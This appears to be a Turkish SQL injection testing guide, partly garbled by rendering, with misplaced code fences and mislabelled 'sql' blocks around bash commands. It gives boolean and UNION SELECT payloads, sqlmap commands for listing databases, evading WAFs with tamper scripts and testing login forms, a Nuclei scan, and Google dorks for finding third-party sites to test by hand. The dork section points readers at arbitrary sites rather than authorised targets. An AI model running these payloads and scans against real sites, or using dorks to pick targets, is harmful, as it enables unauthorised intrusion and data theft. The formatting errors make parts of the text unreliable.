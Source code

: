 🔴 Tek Tırnak ve Boolean Testleri
Normal giriş: 5
Tırnak ile test: 5'
```sql
Boolean testi: 5 OR 1=1 --
Eğer OR 1=1 -- sorgusunda tüm kayıtlar listelenirse, SQL enjeksiyonu mümkün olabilir.

```
🔴 UNION-Based SQLi Testi
Eğer SQL sorgusuna UNION operatörü eklenirse ve ek veriler çekilebiliyorsa, SQL Injection açığı olabilir.
```sql
sql
https://target.com/product.php?id=5 UNION SELECT 1,2,3,4,5 --
```
📌 Eğer sayfalarda yeni değerler görüntülenirse, SQLi açığı mevcut olabilir.

2️⃣ Otomatik Araçlarla SQL Açığı Tespiti
🔹 SQLmap ile SQL Açığı Tespiti
```sql
SQLmap, SQL Injection tespiti ve sömürme işlemleri için kullanılan en popüler araçlardan biridir.
```
📌 Temel tarama komutu:
```sql
bash
sqlmap -u "https://target.com/product.php?id=5" --dbs
✅ --dbs: Veritabanı adlarını listeler.
```
📌 Güvenlik duvarı (WAF) varsa yavaş tarama:
```sql
bash
sqlmap -u "https://target.com/product.php?id=5" --dbs --random-agent --tamper=space2comment
```
📌 Form verisi içeren istekleri test etmek için:
```sql
bash
sqlmap -u "https://target.com/login.php" --data="username=admin&password=1234" --dbs

```
🔹 Nuclei ile SQL Açığı Tespiti
Nuclei, SQL Injection dahil birçok güvenlik açığını test etmek için kullanılabilir.
```sql
bash
```
nuclei -t cves/ -u https://target.com

🔹 SQLi Dorkları ile Google'da Açık Arama
Google Dork kullanarak potansiyel SQL Injection açıkları olan siteleri bulabilirsiniz.
📌 Google Dork Örnekleri:
```sql
bash
```
inurl:"php?id="
inurl:"product.php?id="
💡 Açıklama: Google'da bu tür parametreleri içeren sayfaları bulup manuel test yapabilirsiniz.
